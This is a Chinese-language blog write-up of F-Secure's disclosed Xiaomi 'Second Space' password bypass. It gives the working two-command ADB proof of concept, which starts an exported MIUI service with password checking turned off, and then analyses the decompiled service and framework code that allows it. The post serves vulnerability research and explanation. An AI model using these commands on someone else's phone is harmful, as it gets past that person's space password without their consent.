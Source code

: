 ```yaml
---
layout: post
title:  "REDMI 5 Plus Second Space Password Bypass"
date:   2020-06-10 18:00:00 +520
categories: Android_Security
---
```


这个漏洞来自F-Secure实验室
- https://labs.f-secure.com/advisories/xiaomi-second-space

一句话描述就是：通过ADB命令启动一个Service就可以绕过小米Second Space的密码校验

我有一台Mix 2，刚好可以用于测试

Second Space的中文版本叫作`手机分身`

![](/assets/resources/DEC8A5C4B85CB1E7735AB3530F29BD12.jpg)

点击`开启手机分身`，会进入设置，两个密码，一个密码用于进入分身，一个密码用于回到主系统

这个漏洞的作用，就是让攻击者不需要密码，也可以进入分身，并且在主系统与分身之间自由切换

一共两条命令
```
➜ SECOND_USER=`adb shell pm list users | grep -o "{[0-9]*" | tr -d '{' | tail -n 1`
➜ adb shell am start-service --ez params_check_password False --ei params_target_user_id $SECOND_USER -a com.miui.xspace.TO_CHANGE_USER
```

第一条命令用于查询当前手机里的用户，`| grep -o "{[0-9]*" | tr -d '{' | tail -n 1`用于过滤出`11`这个字段
```
➜ adb shell pm list users
Users:
	UserInfo{0:机主:13} running
	UserInfo{11:security space:13} running
```

第二条命令可以说是最为关键，我们对其进行参数拆分
```
adb shell am start-service // 通过ADB命令启动Service
    --ez params_check_password False // boolean类型参数
    --ei params_target_user_id $SECOND_USER // int类型参数
    -a com.miui.xspace.TO_CHANGE_USER // 指定的Action
```

我们现在知道了这个Service响应的Action是`"com.miui.xspace.TO_CHANGE_USER"`

根据F-Secure的文章提示找到应用`com.miui.securitycore`

当然了，你想自己通过全局爆搜APK字符串也是可以的

这是实现Space切换的Service

![IMAGE](/assets/resources/EB405B9E46F294F27D622AED92854C57.jpg)

查看AndroidManifest文件的定义，有`<intent-filter>`默认导出
```xml
<service 
    android:name="com.miui.securityspace.service.SwitchUserService"
    android:permission="android.permission.INTERACT_ACROSS_USERS" 
    android:process="com.miui.securitycore.remote">
    <intent-filter>
        <action android:name="com.miui.xspace.TO_CHANGE_USER" />
    </intent-filter>
</service>
```

获取四个Intent字段后，调用`checkPasswordBeforeSwitch()`，`mTargetUserId`就是上文提到的`11`
```Java
public int onStartCommand(Intent intent, int arg7, int arg8) {
    this.mDelayTime = intent.getLongExtra("com.miui.xspace.preference_delay_time", 300);
    this.mFromType = intent.getStringExtra("com.miui.xspace.preference_from_type");
    this.mTargetUserId = intent.getIntExtra("params_target_user_id", -10000);
    this.mIsNeedcheckPassword = intent.getBooleanExtra("params_check_password", true);
    Log.d("SwitchUserService", "mTargetUserId: " + this.mTargetUserId);
    if(this.mTargetUserId != -10000) {
        this.checkPasswordBeforeSwitch(this.mTargetUserId);
    }

    this.stopSelf();
    return super.onStartCommand(intent, arg7, arg8);
}
```

`needCloseSdcardFs()`返回的固定值`0`，所以第一个`if`块不会进入，第二个`if`块有两个判断条件，`!mIsNeedcheckPassword`和`!isSecure()`，只需要满足其中一个就可以进入`if`块，而Poc中设置的`"params_check_password"`字段为`False`，所以这个`if`块就是我们关注的重点
```Java
private void checkPasswordBeforeSwitch(int mTargetUserId) {
    Intent intent;
    
    // private boolean needCloseSdcardFs(int arg2) { return 0; }
    if(this.needCloseSdcardFs(mTargetUserId)) {
        intent = new Intent(((Context)this), SdcardFsDialogActivity.class);
        intent.setFlags(0x10000000);
        this.startActivity(intent);
        return;
    }

    if(!this.mIsNeedcheckPassword || !SpaceManagerWrapper.getInstance().isSecure(mTargetUserId)) {
        int v1 = SpaceManagerWrapper.getInstance().switchUser(mTargetUserId);
        if(v1 == 0) {
            AnalyticsHelper.trackSwitchUser(mTargetUserId, this.mFromType);
        }
        else if(2 == v1) {
            ToastUtils.makeText(((Context)this), this.getResources().getString(0x7F09014B), 0).show(); // Can't switch between spaces during a call
        }
        else if(3 == v1) {
            ToastUtils.makeText(((Context)this), this.getResources().getString(0x7F09018B), 0).show(); // Switching to Second space is restricted by parental controls
        }
        else if(4 == v1) {
            ToastUtils.makeText(((Context)this), this.getResources().getString(0x7F0901CC), 0).show(); // Can't switch between spaces when Ultra battery saver is on
        }
    }
    else {
        intent = new Intent(((Context)this), SwitchUserConfirmActivity.class);
        intent.addFlags(0x10008000);
        intent.putExtra("preference_key_user_id", mTargetUserId);
        intent.putExtra("com.miui.xspace.preference_delay_time", this.mDelayTime);
        intent.putExtra("com.miui.xspace.preference_from_type", this.mFromType);
        this.startActivityAsUser(intent, new UserHandle(CrossUserUtils.getCurrentUserId()));
    }
}
```

这个`if`块的第一句代码就是调用`switchUser()`，一共有三个判断
```Java
public int switchUser(int mTargetUserId) {
    if(DeviceUtil.isPhoneCalling(this.mContext)) {
        Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when calling.");
        return 2;
    }

    if(MiuiSettings$Secure.isGreenKidActive(this.mContext.getContentResolver())) {
        Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when green kid active.");
        return 3;
    }

    if(MiuiSettings$System.isSuperSaveModeOpen(this.mContext, 0)) {
        Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when super power active.");
        return 4;
    }

    if(this.mSpaceManager.switchUser(mTargetUserId)) {
        return 0;
    }

    return 1;
}
```

第一个判断，如果当前有电话打进来或者正在接电话，不进行Space切换
```Java
CALL_STATE_STATE_IDLE = 0;
CALL_STATE_STATE_RUNNING = 1;
CALL_STATE_STATE_OFFHOOK = 2;

public static boolean isPhoneCalling(Context context) {
    boolean result = true;
    int callState = context.getSystemService("phone").getCallState();
    if(callState != 1 && callState != 2) {
        result = false;
    }

    return result;
}
```

第二个判断和第三个判断，有一点点棘手，因为它调用到了Framework代码，小米在这一层多了相当多的定制
```Java
import android.provider.MiuiSettings$Secure;
import android.provider.MiuiSettings$System;

if(MiuiSettings$Secure.isGreenKidActive(this.mContext.getContentResolver())) {
    Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when green kid active.");
    return 3;
}

if(MiuiSettings$System.isSuperSaveModeOpen(this.mContext, 0)) {
    Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when super power active.");
    return 4;
}
```

解析boot-framework.vdex，会获得三个cdex，再解析三个cdex文件为dex文件即可

![IMAGE](/assets/resources/C6FE99F25A99F5D480D2D8DF6827060C.jpg)

JEB分析一波，可以直接找到两个方法，正常情况下这两个方法都返回`false`，可以不用过多关注

![IMAGE](/assets/resources/6D15B242DBB968006CBF5027ACFA08A1.jpg)

最后就是切换Space啦
```Java
if(this.mSpaceManager.switchUser(mTargetUserId)) {
    return 0;
}
```

这后面又会调用到Framework的代码，咱们就不进行展开了

有生之年一定要认识一下F-Secure的大佬们，给大佬们一人带一双温州皮鞋穿穿